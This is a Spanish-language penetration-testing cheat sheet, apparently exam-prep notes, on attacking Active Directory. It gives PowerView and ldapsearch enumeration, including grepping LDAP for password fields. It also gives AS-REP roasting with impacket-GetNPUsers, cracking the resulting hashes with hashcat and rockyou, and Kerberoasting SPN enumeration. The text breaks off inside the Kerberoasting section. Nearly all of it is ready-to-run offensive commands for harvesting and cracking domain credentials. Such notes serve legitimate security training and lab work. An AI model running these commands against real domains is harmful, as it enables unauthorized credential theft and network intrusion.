 [chuleta interesante](https://www.emmanuelsolis.com/oscp.html)
### 🔐 Active Directory (AD)

#### 🧭 Enumeración con acceso al dominio 
- PowerView
	```powershell
	# Dominio:
	Get-Domain | select -ExpandProperty name
	
	# Equipos + IPs para /etc/hosts:
	Get-DomainComputer | select -ExpandProperty name > equipos.txt
	foreach ($equipo in (Get-Content .\equipos.txt)) {$IP = Resolve-DnsName $equipo | select -ExpandProperty ipaddress; echo "$ip $equipo" } 
	
	# Usuarios del dominio:
	Get-DomainUser | select -ExpandProperty sAMAccountName
	
	# Recursos compartidos:
	foreach ($equipo in (Get-Content .\equipos.txt)) {net view \\$equipo}
	```
- `ldapsearch`
	```bash
	ldapsearch -x -H ldap://dc01 -b "dc=domain,dc=com"
	# o para búsqueda de información sensible
	ldapsearch -x -H ldap://dc01 -b "dc=example,dc=local" '(objectClass=*)' | grep -iE 'pass|pwd|description|comment|info'
	# ejemplo proporcionando credenciales y buscando usuarios con logon script -> scritp que se ejecuta al iniciar sesión
	ldapsearch -h $target -D "CN=user,DC=domain,DC=local" -w 'password' -b "DC=domain,DC=local" "(scriptPath=*)" sAMAccountName scriptPath
	```
- `windapsearch` - menos técnico 
	```bash
	# se podría omitir usuario y contraseña si no se tiene info
	python windapsearch.py -d $domain --dc-ip $target -u $username -p $password
	
	```
#### 🦆 [[Miscelaneo#ASREPRoasting| ASReproasting]] 
- Buscar cuentas sin preautenticación Kerberos (con credenciales de usuario)
	```bash
	impacket-GetNPUsers -dc-ip $dcip -request -outputfile hash_asreproast $domain/$username:$password
	```
- Obtener hashes y crackear (ej. con hashcat).
	```bash
	hashcat -m 18200 hash_asreproast /usr/share/wordlists/rockyou.txt 
	```
#### 🔥 [[Kerberoasting]]
- Enumerar SPN.
	```bash
	impacket-GetUserSPNs -dc-ip $dcip $domain/$username:$password
	```
- Solicitar todos los tickets (obviar `krbtgt`)
	```bash